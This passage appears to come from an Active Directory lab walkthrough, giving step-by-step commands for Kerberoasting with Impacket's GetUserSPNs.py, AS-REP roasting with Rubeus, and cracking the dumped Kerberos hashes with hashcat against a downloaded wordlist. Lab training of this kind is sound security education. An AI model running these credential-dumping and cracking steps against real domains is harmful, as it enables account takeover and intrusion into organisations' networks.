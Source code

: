     ![https://i.imgur.com/XZegVqf.png](https://i.imgur.com/XZegVqf.png)
    
    copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat
    
    I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt)
    
    3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash
    

# Method 2 - Impacket

- Impacket Installation
    
    Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20
    
    1.) `cd /opt` navigate to your preferred directory to save tools in
    
    2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)
    
    3.) `cd Impacket-0.9.19` navigate to the impacket directory
    
    4.) `pip install .` - this will install all needed dependencies
    
- Kerberoasting w/ Impacket
    
    1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
    
    2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
    
    3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash
    
- Dumping KRBASREP5 Hashes w/ Rubeus
    
    1.) `cd Downloads` - navigate to the directory Rubeus is in
    
    2.) `Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.
    
    ![https://i.imgur.com/l3wJhby.png](https://i.imgur.com/l3wJhby.png)
    
- Crack those Hashes w/ hashcat
    
    1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
    
    2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
    
    Use the same wordlist that you downloaded in task 4
    
    3.) `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200
    
    ![https://i.imgur.com/eOqGVrm.png](https://i.imgur.com/eOqGVrm.png)
    